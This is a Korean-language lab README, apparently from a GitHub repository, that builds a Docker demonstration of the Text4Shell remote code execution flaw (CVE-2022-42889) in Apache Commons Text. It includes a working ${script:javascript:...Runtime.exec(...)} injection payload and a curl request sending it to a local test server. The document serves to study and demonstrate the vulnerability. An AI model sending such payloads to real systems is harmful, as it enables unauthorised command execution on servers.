 # Apache Commons Text 원격 코드 실행 취약점 (CVE-2022-42889)

Apache Commons Text의 원격 코드 실행 취약점 (CVE-2022-42889, 일명 Text4Shell)을 시연하는 Docker 기반 환경을 구성한다.

---

## 취약점 개요

| 항목 | 내용 |
|:---|:---|
| 취약점 ID | CVE-2022-42889 |
| 영향 라이브러리 | Apache Commons Text |
| 문제 기능 | 문자열 보간 (String Interpolation) |
| CVSS 점수 | 9.8 (심각) |
| 영향 받는 버전 | 1.5 ~ 1.9 |
| 패치된 버전 | 1.10.0 이상 |

---

## 취약점 발생 원리

Apache Commons Text의 `StringSubstitutor` 클래스는 `${prefix:name}` 형식의 문자열 템플릿을 평가한다.  
취약한 버전에서는 다음과 같은 위험한 접두사가 기본 활성화되어 있다.

- `script:` : JVM 스크립트 엔진을 통한 코드 실행
- `dns:` : DNS 레코드 조회
- `url:` : 외부 URL에서 데이터 로드

공격자는 악성 입력을 통해 서버 측에서 임의의 명령어를 실행할 수 있다.

악성 입력 예시는 다음과 같다.

```text
${script:javascript:java.lang.Runtime.getRuntime().exec('touch /tmp/hacked')}
```

### 디렉터리 구조
```text
CVE-2022-42889/
├── docker-compose.yml
├── Dockerfile
└── app/
    ├── pom.xml
    └── src/
        └── main/
            └── java/
                └── com/
                    └── example/
                        └── DemoApplication.java
```

### 시연
컨테이너 빌드 및 실행
``` text
docker-compose up --build -d
```
악성 입력 전달

``` text
${script:javascript:java.lang.Runtime.getRuntime().exec('touch /tmp/hacked')}
```
1. ${script:javascript:...} 는 script: 접두사를 이용해 JVM의 자바스크립트 엔진을 호출하는 부분이다.
2. java.lang.Runtime.getRuntime().exec('touch /tmp/hacked') 는 서버 시스템 명령어 실행을 의미한다.
3. touch /tmp/hacked 명령어는 /tmp/hacked 파일을 생성하는 리눅스 명령이다.
4. 즉, 이 입력을 전달하면 서버에서 실제로 /tmp/hacked라는 빈 파일이 만들어진다.
url 인코딩 후, 아래와 같이 Localhost:8080에 입력
``` text
curl "http://localhost:8080/test?input=%24%7Bscript%3Ajavascript%3Ajava.lang.Runtime.getRuntime%28%29.exec%28%27touch%20%2Ftmp%2Fhacked%27%29%7D"
```
![PoC 요청 결과](./CVE-2022-42889/1.png)
컨테이너 내부 파일 생성 여부 확인
명령이 실행 중이며 아직 종료되지 않았다는 의미이다. (touch 명령은 바로 끝남)
![PoC 요청 결과](./CVE-2022-42889/2.png)
